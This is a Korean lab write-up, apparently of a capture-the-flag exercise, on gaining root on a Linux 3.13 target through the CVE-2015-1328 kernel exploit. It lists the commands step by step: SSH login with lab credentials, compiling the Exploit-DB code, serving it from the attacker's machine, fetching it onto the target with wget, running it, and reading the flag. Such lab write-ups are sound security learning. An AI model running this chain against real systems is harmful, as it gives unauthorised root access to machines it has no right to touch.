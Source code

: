 # Linux Privilege Escalation: Kernel Exploits
> 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

## 2. 실습 과정

### 2.1 SSH 접속
- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
```

![SSH 연결 및 로그인](/screenshots/ssh_connect.png)

### 2.2 커널 버전 확인

- 커널 버전 확인→ uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](/screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

### 2.3 Kali에서 SSH 서버 시작

```bash
systemctl start ssh
```
![SSH 서비스 시작](/screenshots/start_ssh.png)


### 2.4 Exploit 다운로드 및 전송 (Windows → Kali) 
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](/screenshots/window_scp.png)


### 2.5 Exploit 정적 컴파일  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](/screenshots/compile.PNG)

### 2.6 타겟 머신으로 Exploit 전송
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](/screenshots/http_server_wget.PNG)

### 2.7 실행 및 루트 획득

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](/screenshots/exploit_flag.PNG)

---

## 느낀 점

이번 실습을 통해 커널 익스플로잇을 활용한 권한 상승 과정을 직접 따라 해보며, 이론으로만 알고 있던 **Kernel Exploit의 실제 작동 방식과 흐름을 체험**할 수 있었다.
특히, 커널 버전 확인부터 취약점 검색, 익스플로잇 소스 컴파일 및 전송, 실행을 통해 루트 권한을 획득하는 일련의 과정을 경험하면서, **실제 시스템 해킹 흐름을 이해하고 정리하는 데 큰 도움이 되었다**.

